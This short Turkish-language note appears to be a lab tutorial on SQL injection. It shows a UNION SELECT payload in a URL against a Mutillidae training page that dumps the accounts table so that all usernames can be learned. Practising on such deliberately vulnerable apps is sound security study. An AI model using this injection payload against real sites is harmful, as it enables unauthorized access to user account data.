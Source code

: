 # SQL Union Select Kodu
#### 1. Admin kullanıcı adını bilmiyorsak veya tüm kullanıcı isimlerini öğrenmek istiyorsak ```union select``` kullanabiliriz
#### 2. URL kısmına ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' union select*from account%23&password=123456&user-info-php-submit-button=View+Account+Details``` yazıyoruz 
